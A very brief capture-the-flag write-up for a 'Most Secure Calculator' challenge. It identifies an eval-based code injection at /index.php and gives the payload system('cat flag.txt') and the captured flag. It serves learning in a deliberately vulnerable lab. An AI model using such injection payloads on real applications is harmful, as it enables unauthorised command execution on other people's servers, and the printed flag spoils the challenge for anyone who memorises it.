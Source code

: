 # Knight CTF - Most Secure Calculator - 1

Sound like eval stuff --> yes
/index.php --> yes

**payload**: `system('cat flag.txt')`

**flag**: `KCTF{WaS_mY_cAlCuLaToR_sAfE}`
